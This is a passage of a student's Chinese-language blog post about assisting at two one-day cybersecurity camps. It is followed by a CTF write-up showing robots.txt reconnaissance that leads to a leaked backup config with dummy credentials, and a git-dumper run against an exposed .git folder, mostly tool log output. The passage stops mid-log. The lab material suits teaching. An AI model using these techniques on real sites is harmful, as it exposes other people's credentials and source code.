





::link{url="https://ctf.ga24.me/" text="ctf.ga24.me" }

# 前言
由於最近一直投入在社群＋資安上，所以在 Yuan 的邀約下，我成功成為了 一日資安體驗營的助教...? （簡單來說就是免費打工人）  
由於我未滿 18 歲和還不是大學生，沒辦法領到助教費，所以就只能當免費勞工就是了((

由於我主要活動在北部和中部，所以我只有報名北中兩地的助教，分別在 7/27 和 8/1 日。  
接下來就快樂看心得吧:D

# 一日資安體驗營 台北場 7/27


在前一天的時候，我突然收到來自 Frank 的私訊：

反正我得幫他代班買飲料買午餐，多了一個工作而已:)

當天到了北科大，我就跟著我以前的記憶走向教室，路上我遇到了 Yoru！我有認出他！大佬啊啊🛐  
然後到了教室我還一度被認為是學員（ fearnot 沒記住我，但 Ya 記住了），反正之後我就坐下來開始用自己的東西，處理午餐訂購啊，還有其他阿里不達的東西。  （吐槽一下，為什麼 Badge 又是 SITCON 年會的 Badge 啊？）

反正飲料到了我就下去拿，我雖然感冒，但我還是抵不住得正的誘惑🫪雖然我感冒不太舒服，但飲料好喝就好👍

午餐我吃咕咕雞，還不錯吃，而且只要100元，超級便宜欸！而且一個便當剛剛好，是可以飽的。

下午的課程是 OSGA 上，講資安 CTF，啊我是 THJCC 總召也是得破台的吧:3  
雖然破台了但是是第六名，有點難過:( 然後破完後我就開始去幫其他學員（現在才做助教的工作www）） https://ctf.ga24.me

喔對了，補充下，今天我有看到 Denny（此 Denny 非 Denny）、可樂、貳參舞 當學員（還有一堆不認識的大佬們），但我後面才知道烤鴨也有來啊啊！

反正下午的課程一下就結束了！拿完感謝狀結束後我和貳參舞一起離開去西門町，在捷運站還有看到烤鴨就跟他打了個招呼，結果他還記得我，還蠻開心的（？

# 一日資安體驗營 台中場 8/1

這天是禮拜六，我早早就前往台中高工，到了以後我自己找不到教室QwQ 是一個路人告訴我我才知道要到哪裡去。  

到了教室後我想著應該也會有一些人不知道教室在哪裡，於是我就快樂的下去一樓去看看有沒有學員，幫忙指引他們上樓抵達教室。  
上午一樣是 OSGA 的課，然後他還是一樣講 CTF 題目，由於前幾天我都做過了，於是我註冊了一個帳號 `Claude`，然後從頭打一次，藏 Flag，然後破台www

OSGA 一直問那個人是誰，~~不過我不敢承認~~，反正破完台後我一樣就開始我助教的任務，幫助其他人解這個 CTF。  


上半堂上完後就吃午餐，午餐吃完換了一個講師，這個講師上課很厚，全部都是概念知識型，我自己聽了也有一點點點點點點點想睡覺w 反正一樣也是持續幫助其他學員一起完成 workshop 就是了。

# 助教心得
其實好像也沒啥心得，就是有吃有喝的，還可以幫忙有潛力的學生跳坑資安圈，激發他們對資安的興趣，還有工人證明可以拿。  
要不是我還沒滿 18 歲還不是大學生，我就可以領薪水了www  
據說講師好像有更多摳摳的樣子，好像是兩倍...? 反正期待明年也可以來繼續當助教www

# ctf.ga24.me writeup
## 前言：
由於台中場有很多學員想了解要怎麼寫，我就讓 AI 自己生了一個筆記出來，等我部落格寫完後再放上我自己寫的 writeup。那現在把 AI 筆記全刪掉吧!

> WP完成度： (8/8)

## Web / Info Leak

### [Curious Crawler](https://ctf.ga24.me/challenges#Curious%20Crawler-1) (100)

#### 題目

Acme Corp 剛上線他們的新官網，看起來平平無奇……不過爬蟲有時候會發現一些人類沒注意到的東西。

網站：<https://web01.ctf.ga24.me>

#### 解題心得

這題的題目有提到「爬蟲」會注意到的東西，第一個會想到`robots.txt`，於是打開這個連結( <https://web01.ctf.ga24.me/robots.txt> )後，會發現這個：
```txt
User-agent: *
Disallow: /admin_hidden_x8k/
Disallow: /internal-notes/
```
這裡有看到一個 `admin_hidden_x8k` 的路徑，我們點進來( <https://web01.ctf.ga24.me/admin_hidden_x8k> )後就會看到他有一個 `config.php.bak` 的檔案，打開後( <https://web01.ctf.ga24.me/admin_hidden_x8k/config.php.bak> )就會找到 API_TOKEN (Flag)：
```txt collapse={1-13, 15-20}
<?php
// -----------------------------------------------------------------------------
// Acme Corp — 資料庫連線設定 (備份自 2026-05-18)
// TODO: 部署前刪除此備份檔！ -- @roy
// -----------------------------------------------------------------------------

$DB_HOST = "db.internal.acme.example";
$DB_PORT = 3306;
$DB_NAME = "acme_prod";
$DB_USER = "acme_app";
$DB_PASS = "hunter2-butactually-longer-2026";

// 內部 API token（勿外流）
$API_TOKEN = "FLAG{r0b0ts_txt_1s_n0t_s3cur1ty}";

// 郵件伺服器
$SMTP_HOST = "smtp.acme.example";
$SMTP_USER = "noreply@acme.example";
$SMTP_PASS = "temp-please-rotate";
?>
```

#### Flag

```txt
FLAG{r0b0ts_txt_1s_n0t_s3cur1ty}
```

### [Version Control](https://ctf.ga24.me/challenges#Version%20Control-2) (250)

#### 題目

ShopMini 團隊上線了他們的新網站！開發時他們用了 git 管理原始碼。聽說有位新來的工程師曾經不小心把敏感檔案 commit 進去，後來雖然刪掉了……但事情有這麼簡單嗎？

網站：<https://web02.ctf.ga24.me>

#### 解題心得

這題提到了 git，簡單來說他是一個用來控制代碼版本的備份紀錄，讓每一筆操作都可以非常清晰了留下 log！  
那通常紀錄會存在根目錄的 .git 中，於是我們使用 git-dumper 來下載整個專案資料夾。
::github{repo="arthaud/git-dumper"}

```bash collapse={2-268}
➜  ~ git-dumper https://web02.ctf.ga24.me/ ./web02
[-] Testing https://web02.ctf.ga24.me/.git/HEAD [200]
[-] Testing https://web02.ctf.ga24.me/.git/ [403]
[-] Fetching common files
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.gitignore [200]
[-] Fetching https://web02.ctf.ga24.me/.git/description [200]
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/COMMIT_EDITMSG [200]
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/hooks/pre-push.sample [200]
[-] Fetching https://web02.ctf.ga24.me/.git/hooks/pre-rebase.sample [200]
[-] Fetching https://web02.ctf.ga24.me/.git/hooks/applypatch-msg.sample [200]
[-] Fetching https://web02.ctf.ga24.me/.git/hooks/pre-receive.sample [200]
[-] Fetching https://web02.ctf.ga24.me/.git/hooks/post-commit.sample [404]
[-] Fetching https://web02.ctf.ga24.me/.git/hooks/pre-applypatch.sample [200]
[-] https://web02.ctf.ga24.me/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/hooks/post-update.sample [200]
[-] Fetching https://web02.ctf.ga24.me/.git/hooks/post-receive.sample [404]
[-] https://web02.ctf.ga24.me/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/hooks/commit-msg.sample [200]
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/hooks/update.sample [200]
[-] Fetching https://web02.ctf.ga24.me/.git/objects/info/packs [404]
[-] Fetching https://web02.ctf.ga24.me/.git/info/exclude [200]
[-] https://web02.ctf.ga24.me/.git/objects/info/packs responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching https://web02.ctf.ga24.me/.git/index [200]
[-] Fetching https://web02.ctf.ga24.me/.git/hooks/pre-commit.sample [200]
[-] Finding refs/
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/FETCH_HEAD [404]
[-] https://web02.ctf.ga24.me/.git/FETCH_HEAD responded with status code 404
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/logs/refs/heads/main [200]
[-] Fetching https://web02.ctf.ga24.me/.git/info/refs [404]
[-] Fetching https://web02.ctf.ga24.me/.git/config [200]
[-] https://web02.ctf.ga24.me/.git/info/refs responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/ORIG_HEAD [404]
[-] https://web02.ctf.ga24.me/.git/ORIG_HEAD responded with status code 404
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/logs/refs/heads/development [404]
[-] https://web02.ctf.ga24.me/.git/logs/refs/heads/development responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/logs/HEAD [200]
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/logs/refs/remotes/origin/HEAD [404]
[-] https://web02.ctf.ga24.me/.git/logs/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/logs/refs/remotes/origin/main [404]
[-] https://web02.ctf.ga24.me/.git/logs/refs/remotes/origin/main responded with status code 404
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[-] Fetching https://web02.ctf.ga24.me/.git/logs/refs/remotes/origin/production [404]
[-] https://web02.ctf.ga24.me/.git/logs/refs/remotes/origin/production responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/logs/refs/remotes/origin/master [404]
[-] https://web02.ctf.ga24.me/.git/logs/refs/remotes/origin/master responded with status code 404
[-] Fetching https://web02.ctf.ga24.me/.git/logs/refs/remotes/origin/staging [404]
[-] https://web02.ctf.ga24.me/.git/logs/refs/remotes/origin/staging responded with status code 404
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
/Library/Frameworks/Python.framework/Versions/3.13/lib/python3.13/site-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'web02.ctf.ga24.me'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
